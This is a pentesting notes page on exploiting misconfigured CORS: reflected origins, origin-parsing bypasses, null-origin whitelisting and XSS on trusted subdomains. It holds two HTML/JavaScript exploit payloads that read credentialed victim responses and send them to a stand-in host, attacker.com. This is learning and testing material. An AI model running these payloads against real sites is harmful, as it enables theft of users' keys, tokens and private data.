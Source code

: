 ```yaml
---
title: "CORS"
weight: 7
description: "Learn how misconfigured CORS policies expose sensitive data via origin reflection, null whitelisting, and XSS on trusted subdomains."
---
```


# CORS

**Impact**: if a response contains any sensitive information such as an API key or CSRF token, you could retrieve these info.

## Server ACAO Header from Client-Origin

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

**Detection**&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

**Exploit**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://attacker.com/log?key='+this.responseText;
};
</script>
```

## Errors parsing Origin headers

Suppose `normal-website.com`. Bypass with`hackersnormal-website.com` or `normal-website.com.evil-user.net`

{{< hint style=notes >}}
**Note**: you need to know the whitelisted origins.
{{< /hint >}}

## Whitelisted null origin value

**Detection**

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

**Exploit**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://attacker.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Cookie SameSite

It is important to note that all this works in according with SameSite cookie attribute. This means that if your session cookie is set with `SameSite=Strict` the browser send the cookie only for same-site requests. For more information about this topic and how to bypass it, refer to [#samesite-cookies](csrf-cross-site-request-forgery.md#samesite-cookies "mention").
